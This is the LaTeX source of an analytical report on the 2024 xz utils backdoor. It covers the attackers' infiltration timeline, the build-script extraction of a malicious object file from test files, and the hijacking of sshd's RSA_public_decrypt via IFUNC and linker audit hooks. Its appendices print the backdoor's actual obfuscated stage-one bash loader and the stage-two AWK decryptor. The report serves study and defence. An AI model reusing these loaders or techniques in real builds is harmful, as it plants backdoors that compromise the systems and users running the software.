\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage{biblatex}
\usepackage{appendix}
\usepackage{graphicx}
\usepackage{float}
\usepackage{listings}

\addbibresource{xz_exploit.bib}

\graphicspath{{./assets/}}

\title{xz exploit}
\author{Johann Süß}
\date{June 07. 2024}

\begin{document}

\maketitle

\section{Abstract}
A backdoor in the open source package xz utils was discoverd by Andres Freund \cite{OsssecurityBackdoorUpstream}. The attack targeted the Secure Shell Daemon Process (sshd) to gain remote code execution on a large number of linux based systems. 

Using modified build scripts, a shared object was build from binary test files and linked into the library liblzma containing malicious code to manipulate the dynamic linker and change the the behavior of the sshd process during authentication to execute commands from the attackers. 

The process of introducing the backdoor was meticulously planed and executed over a long time period. Various obfuscation technics where used to conceal the behavior of the malware.

This represents a novel attack vector that is hard to defend against.

\section{Timeline}
The timeline of the process of introducing the backdoor shows, how long the attack was planed. Since everything took place in open source repositories, a lot about the process is known.

\subsection{Infiltration}
On January 26, 2021 the GitHub Account used for the attack was created \cite{JiaT75JiaTana}. It has a lot of activity in other repositories such as libarchive \cite{LibarchiveLibarchive2024} and seatest \cite{nicholasKeithnSeatest2024} during 2021, then starts focusing on the xz utils package at the beginning of 2022 \cite{JiaT75JiaTanb}.

Starting in May 2022, two accounts, Jigar Kumar and Dennis Ens, start pressuring the maintainer of the xz utils package Lasse Collin, that not enough progress is being made and another maintainer should be added \cite{ReXzdevelPATCH} \cite{ReXzdevelXZ} \cite{Xzdevel}. It can be assumed that these two accounts belong to the attackers, since they have little other activity and benefit the attackers with their actions.
In June of 2022, Lasse Collin agrees to make Jia Tan a co-maintainer in the project xz utils \cite{ReXzdevelXZa}.

\subsection{Execution}
The account Jia Tan then starts preparing the attack. In googles oss-fuzz project, changes are made to the contact of the xz utils package and GNU IFUNC's where disabled for fuzzing builds of the project \cite{PullRequestsGoogleb} \cite{PullRequestsGooglea}.

On February 23. 2024, two binary test files containing the code for the malware are added \cite{GitTukaaniOrg}. In March 2024, the first vulnerable version of xz utils, v5.6.0, is released. Because the backdoor contained in that release caused valgrind errors, shortly thereafter v5.6.1 was released, fixing the errors \cite{GitTukaaniOrgb} \cite{GitTukaaniOrgc}.

Various accounts push for inclusion of the vulnerable versions of xz utils in debian, ubuntu and other linux distributions \cite{1067708XzutilsNew} \cite{Bug2059417Sync}.

\subsection{Discovery}
On March 29. 2024, Andres Freund, a Microsoft employee, sends an email to the open source security mailing list \cite{OsssecurityBackdoorUpstream} describing the backdoor. In the following days, the changes made by Jia Tan in xz utils are reverted and Debian and other affected linux distributions remove the vulnerable versions.

\section{Technical Details}
The attack targets the Secure Shell Daemon (sshd) process. It changes the behavior during authentication in a way that let's the attackers, and only them, execute code via the sshd process (see Figure \ref{fig:modified_sshd}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{hijacked_ssh.png}
    \caption{Modified sshd process}
    \label{fig:modified_sshd}
\end{figure}

The is split into two stages. In the first stage, an ELF object file is build from data hidden in two binary test files using bash commands, and in the second stage the linking process during startup of the sshd process is modified to accommodate the backdoor.

\subsection{Build stage}
Using a modified build script injected into the releases of xz utils, the first stage is executed. During this stage, data from two binary test files (\texttt{bad-3-1corrupt\_lzma2.xz}, \texttt{good-large\_compressed.lzma}) is extracted and put together in a way that produces a valid ELF object file.

First, a macro inside \texttt{build-to-host.m4} is executed that "uncorrupts" the corrupted test file \texttt{bad-3-1corrupt\_lzma2.xz} by doing the following replacements:
\begin{itemize}
    \item 0x09 (\textbackslash t) are replaced with 0x20 (whitespace)
    \item 0x20 (whitespace) are replaced with 0x09 (\textbackslash t)
    \item 0x2d (-) are replaced with 0x5f (\_)
    \item 0x5f (\_) are replaced with 0x2d (-)
\end{itemize}
The uncorrupted and extracted content of \texttt{bad-3-1corrupt\_lzma2.xz} is a bash script that get's executed directly afterwards (see Appendix \ref{appendix:bash1}).

This bash script first extracts \texttt{good-large\_compressed.lzma} and then carves out sections of the extracted file (see Figure \ref{fig:carved_file}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{carved_good_large_lzma.png}
    \caption{data of \texttt{good-large\_compressed.lzma} before and after executing bash script 1 \cite{XzLiblzmaBashstage}}
    \label{fig:carved_file}
\end{figure}

The first 31264 Bytes of the cleaned data are skipped. The rest of the data is decrypted using a substitution cipher and decompressed. This results in a second bash script which is immediately executed.

The second bash script is a lot longer and contains a lot of functionality. The important part is the section that creates the object file (see Appendix \ref{appendix:bash2}). Like in the first bash script, the file \texttt{good-large\_compressed.lzma} get's decompressed and cleaned (see Figure \ref{fig:carved_file}) then the first section is is decrypted using an algorithm similar to RC4 implemented as an AWK script \cite{XzLiblzmaBashstage}. After the decrypted part is decompressed it get's written to a file called \texttt{liblzma\_la-crc64-fast.o} which is the object file containing the malicious code.

\subsection{Linking stage}
The xz utils library is linked into the address space of the sshd process, because it is a dependency of the systemd process which in turn is (to some extend) required by sshd. 

To introduce the backdoor into the sshd process, the malware manipulates the dynamic linker process in a way so that the code that implements the backdoor get's run on each new connection (see Figure \ref{fig:modified_sshd}). This is achieved by modifying the address of a function call to \texttt{RSA\_public\_decrypt()}, part of the dynamically linked libcrypto library. 

The addresses of dynamically loaded functions are stored by the dynamic linker in the global offset table. The attackers modified the address of the \texttt{RSA\_public\_decrypt()} function in the global offset table to point to another function that implements the backdoor.

However, the global offset table can only be modified during a specific time window. If the security feature relocation read only (RELRO) is set during compilation, the global offset table get's populated during startup and marked as read only during runtime of the executable. This means the overriding has to occur before the global offset table is marked as read only.\\
If the global offset table get's modified before the actual address is resolved by the linker (e.g. before the linker is run), then the linker overrides the modified address. It is therefore important to modify the global offset table exactly during this time window.

The malware uses two features of the dynamic linker to interfere with the linking process: GNU indirect functions (IFUNC) and real time dynamic linker audit hooks (rtdl-audit) \cite{denzelfarmerDeepDiveXZ2024} (see Figure \ref{fig:build_proc}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{build_process.png}
    \caption{build process of malicious object file}
    \label{fig:build_proc}
\end{figure}

\subsubsection{Indirect functions}
Indirect functions are a feature of the dynamic linker. Developers can provide a resolver function which is called during the linking process by the dynamic linker and resolves a function based on certain criteria (e.g. availability of hardware accelerators).

Code execution during the dynamic linking process is crucial for the exploit. It provides the ability to modify the memory in the dynamic linker process and the global offset table in the sshd process. Using the resolver function, arbitrary code can be executed during linking which satisfies the lower bound of the required time window (modify before global offset table is marked as read only) but not the upper bound (don't modify before the important libraries have been resolved).

Because of that, the resolver function is not used to modify the global offset table but instead to modify data structures in the memory of the dynamic linker that hold the rtdl-audit callback functions.

\subsubsection{Dynamic linker audit hooks}
Realtime dynamic linker audit hooks allow for tracing of the linking process by providing the ability to define callback functions which get called for specific events during the linking process. 

Using this feature it becomes possible to define a function that get's called by the linker as an audit hook in the required time window. This function can then override the global offset table and introduce the backdoor.

\subsubsection{Resolving memory addresses}
To be able to modify memory addresses during link time, the malware has to be able to find the right addresses in memory, which is a non trivial problem because of address space layout randomization and variability between systems.

To find the required memory addresses, information from the dynamic linkers data section is used. To find the data section of the linker, the return address of the audit hook callback function is read from the stack and used to get an address somewhere in the linkers text section. From there, the memory is scanned backwards until the ELF header of the dynamic linker is found. From there the offsets of the sections in memory are determined. 

To determine the position of individual variables in the data section, the text section of the dynamic linker is disassembled using an x86 disassebler that is included in the malware. Using information from the disassebling process, addresses in memory are resolved manually.

\subsection{Runtime}
The payload containing the command that the attacker wants to execute is hidden as cipher text in the modulus value of the RSA key used for authentication. The injected function tries to decrypt the payload and, if successful as indicated by a magic value, the remaining part of the payload is decrypted a second time using another cryptographic algorithm (see Figure \ref{fig:payload_decrypt}). The payload contains a signature and a command that get's executed if the signature is valid.

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{key_fmt.png}
    \caption{Decryption process of payload}
    \label{fig:payload_decrypt}
\end{figure}

\section{Attribution}
Given the complexity of the exploit and the patient infiltration over a long time frame, it is reasonable to assume that the attack was not executed by a single person but by a larger group or organization. 

However, there are very few hints that reveal information about the identities of the attackers. VPN's where used for the commits to GitHub, the email addresses where not used in other attacks before and no comments or strings could be found in the code that reveal something about their nationality.

\printbibliography

\appendix

\section{Appendix 1} \label{appendix:bash1}
\begin{minipage}{\linewidth}
\begin{lstlisting}[breaklines]
####Hello####
# random binary bytes but commented out so they have no effect
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +939)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31233|tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
\end{lstlisting}
\end{minipage}

\section{Appendix 2}  \label{appendix:bash2}
\begin{minipage}{\linewidth}
\begin{lstlisting}[breaklines]
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
\end{lstlisting}
\end{minipage}

% \section{Appendix 3} \label{appendix:elf_header}
% \begin{minipage}{\linewidth}
% \begin{lstlisting}[breaklines]
% ELF Header:
%   Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
%   Class:                             ELF64
%   Data:                              2's complement, little endian
%   Version:                           1 (current)
%   OS/ABI:                            UNIX - System V
%   ABI Version:                       0
%   Type:                              REL (Relocatable file)
%   Machine:                           Advanced Micro Devices X86-64
%   Version:                           0x1
%   Entry point address:               0x0
%   Start of program headers:          0 (bytes into file)
%   Start of section headers:          73176 (bytes into file)
%   Flags:                             0x0
%   Size of this header:               64 (bytes)
%   Size of program headers:           0 (bytes)
%   Number of program headers:         0
%   Size of section headers:           64 (bytes)
%   Number of section headers:         242
%   Section header string table index: 241
% \end{lstlisting}
% \end{minipage}

\end{document}